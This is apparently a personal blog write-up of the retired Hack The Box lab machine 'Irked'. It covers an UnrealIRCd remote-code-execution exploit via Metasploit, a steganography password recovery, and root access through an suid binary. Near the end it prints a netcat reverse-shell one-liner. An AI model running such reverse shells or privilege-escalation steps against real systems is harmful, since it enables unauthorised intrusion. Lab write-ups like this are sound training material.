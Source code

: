 ```yaml
---
layout: post
title: Hack The Box - Irked
categories: hack-the-box
image: /hackthebox/irked/0.png
---
```

<hr>
### Quick Summary
#### Hey guys, today Irked retired and here's my write-up about it. It was an easy straightforward machine, no rabbit holes and such things. To get an initial shell on the box we will exploit an RCE vulnerable irc server called `UnrealIRCd`. After getting a shell we will find a backup file which has a password. We will use that password to get a hidden text file from an image (steg). That text file contains another password which we will use to get ssh access as another user. Finally for privilege escalation there is an `suid` binary that executes a file, and we control that file so we can get a reverse shell as root. It's a linux box and its ip is `10.10.10.117`. I added it to `/etc/hosts` as `irked.htb`. Let's jump right in !
![](/images/hackthebox/irked/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/1.png)
#### There is ssh running on port 22 and http running on port 80. Let's take a look at http.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/irked/2.png)
#### There is only that image and a message saying : `IRC is almost working!`, Source also has nothing interesting :
![](/images/hackthebox/irked/3.png)
#### We have a hint which is irc, let's check that. If we didn't find anything then we will continue with http.
<br>
<hr>
### IRC
#### I searched for irc and found [here](https://en.wikipedia.org/wiki/Internet_Relay_Chat#Technical_information) That if there is an irc server running on the machine, then probably it will be in the port range from 6000 to 7000. So I ran another nmap scan :
`nmap -p 6000-7000 -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/4.png)
#### There is an irc server running on port 6697 called `UnrealIRCd`. There are some known vulnerabilities for `UnrealIRCd`, One of them is a Remote Code Execution and there is a metasploit module for it :
![](/images/hackthebox/irked/5.png)
#### Let's check if the server is vulnerable to it.
![](/images/hackthebox/irked/6.png)
<br>
<br>
![](/images/hackthebox/irked/7.png)
#### It worked and we got a shell as `ircd` :
![](/images/hackthebox/irked/8.png)
<hr>
### Steg in `irked.jpg`, SSH as `djmardov`
#### There are two users on the box : `ircd` and `djmardov`. I checked `/home/ircd` and there was nothing interesting. In `/home/djmardov` I didn't find `user.txt` :
![](/images/hackthebox/irked/9.png)
#### I tried to go into `.ssh` but I got `Permission denied` :
![](/images/hackthebox/irked/10.png)
#### I checked other directories like `Desktop`, `Downloads`, `Documents` etc... And in `Documents` I found `user.txt` and a file called `.backup` :
![](/images/hackthebox/irked/11.png)
<br>
<br>
`cat .backup`
![](/images/hackthebox/irked/12.png)
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
#### It gives us a hint about some steg backup, we also get something that looks like a password : `UPupDOWNdownLRlrBAbaSSss`. But where will we use that password ? Remember the image we saw earlier on that apache server ?
![](/images/hackthebox/irked/2.png)
<br>
<br>
![](/images/hackthebox/irked/3.png)
#### I downloaded it then used `steghide` to check if there is any hidden file.
#### Note : I have a list for some steganography tools, If you are not familiar with steg you can check it [here](/lists/stego).
`wget http://irked.htb/irked.jpg`
![](/images/hackthebox/irked/13.png)
<br>
<br>
`steghide info irked.jpg`
![](/images/hackthebox/irked/14.png)
#### There is a hidden text file called `pass.txt`, Let's extract it :
`steghide extract -sf irked.jpg`
![](/images/hackthebox/irked/15.png)
<br>
<br>
`cat pass.txt`
![](/images/hackthebox/irked/16.png)
#### We got the password : `Kab6h+m+bbp2J:HG`, let's try to login as `djmardov` :
![](/images/hackthebox/irked/17.png)
#### We owned user !
<br>
<hr>
### Exploiting `viewuser`, Privilege Escalation to `root`
#### After some enumeration, I searched for `suid` binaries and in `/usr/bin` I found a binary called `viewuser`.
`find /usr/bin/ -perm -4000`
![](/images/hackthebox/irked/18.png)
#### It seems interesting so I decided to check it.
`viewuser`
![](/images/hackthebox/irked/19.png)
#### It shows logged in users, but we don't care about that. The only thing we care about is the last line : `/tmp/listusers: 1: /tmp/listusers: djmardov: not found`. It seems like it was trying to do something with the file `/tmp/listusers` which doesn't exist. I downloaded `viewuser` to try some stuff :
`scp djmardov@irked.htb:/usr/bin/viewuser ./`
![](/images/hackthebox/irked/20.png)
#### When I did `ltrace` on the binary I found that it executes `/tmp/listusers` :
![](/images/hackthebox/irked/21.png)
#### And since this binary runs as root, then it also executes `/tmp/listusers` as root. So we can simply get a reverse shell by putting the payload in `/tmp/listusers`, Then after running the binary again it should execute the payload.
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f" > /tmp/listusers`
![](/images/hackthebox/irked/22.png)
#### Everything is fine, let's check our listener :
![](/images/hackthebox/irked/23.png)
<br>
<br>
![](/images/hackthebox/irked/24.png)
#### Now we own root ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Teacher](/hack-the-box/teacher/)
#### Next Hack The Box write-up : [Hack The Box - BigHead](/hack-the-box/bighead/)
<hr>
